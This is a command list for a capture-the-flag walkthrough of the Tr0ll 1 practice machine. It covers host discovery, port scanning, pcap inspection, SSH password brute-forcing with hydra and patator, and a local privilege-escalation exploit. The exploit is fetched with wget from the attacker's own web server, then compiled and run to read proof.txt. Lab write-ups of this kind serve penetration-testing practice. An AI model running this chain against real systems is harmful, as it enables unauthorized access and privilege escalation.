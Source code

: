 Commands:

netdiscover -i eth1

nmap -p- -A (Tr0ll 1 IP)

apt-get install ftp
get lol.pcap
quit

tcpdump -nnttttAr lol.pcap | less -Sr

cd ~/Downloads
file roflmao
chmod +x roflmao
./roflmao

hydra -L usernames -p Pass.txt (Tr0ll 1 IP) ssh -t1

git clone https://github.com/lanjelot/patator.git
cd patator

python -W ignore patator.py ssh_login host=(Tr0ll 1 IP) user=FILE0 0=/root/usernames password=Pass.txt

ssh overflow@(Tr0ll 1 IP)

uname -a
lsb_release -a

cd /var/www/html
vi 37292.c 
service apache2 start

wget http://192.168.56.101/37292.c
gcc 37292.c -o 37292
chmod +x 37292
./37292

cat proof.txt

URLs:
https://github.com/lanjelot/patator
https://www.exploit-db.com/raw/37292